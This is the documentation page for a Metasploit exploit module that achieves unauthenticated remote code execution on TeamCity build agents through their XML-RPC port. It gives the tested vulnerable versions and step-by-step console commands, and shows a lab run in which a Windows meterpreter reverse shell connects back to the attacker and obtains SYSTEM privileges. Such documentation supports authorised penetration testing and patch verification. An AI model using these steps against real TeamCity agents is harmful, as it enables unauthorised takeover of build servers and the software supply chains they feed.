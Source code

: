 ## Description

This module allows remote code execution on TeamCity Agents configured to use bidirectional communication via xml-rpc. In bidirectional mode the TeamCity server pushes build commands to the Build Agents over port TCP/9090 without requiring authentication. Up until version 10 this was the default configuration. This module supports TeamCity agents from version 6.0 onwards.

This module makes use of both a Windows and a Linux command stager. For Linux, the `echo` command stager flavor was replaced with the `printf` command stager flavor due to portability issues associated with `echo` and its options.

## Vulnerable Application

This module has been tested successfully with the following TeamCity Agent versions

* TeamCity 6.0
* TeamCity 6.5
* TeamCity 7.0
* TeamCity 8.0
* TeamCity 9.0
* TeamCity 10.0
* TeamCity 2017
* TeamCity 2018

## Verification Steps

1. `msfconsole`
2. `use exploit/multi/misc/teamcity_agent_xmlrpc_exec`
3. `set RHOSTS <rhost>`
4. `set payload <payload>`
5. `run`

## Options

### RPORT

Which port the TeamCity Agent is listening on (default: 9090)

### CMD

If specified the module will run the specified command instead of executing the payload

## Scenarios

### Windows Server 2012 R2 (x64) with TeamCity Agent 2018.1

```
msf > use exploit/multi/misc/teamcity_agent_xmlrpc_exec 
msf exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set RHOSTS 172.16.198.149
RHOSTS => 172.16.198.149
msf exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set LHOST eth0
LHOST => eth0
msf exploit(multi/misc/teamcity_agent_xmlrpc_exec) > run

[*] Started reverse TCP handler on 172.16.198.150:4444 
[*] Found TeamCity Agent running build version 58245
[*] Constructing Windows payload
[*] Found compatible build config for TeamCity build 58245
[*] Successfully sent build configuration
[*] Sending stage (179779 bytes) to 172.16.198.149
[*] Meterpreter session 1 opened (172.16.198.150:4444 -> 172.16.198.149:49178) at 2018-10-03 17:21:12 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
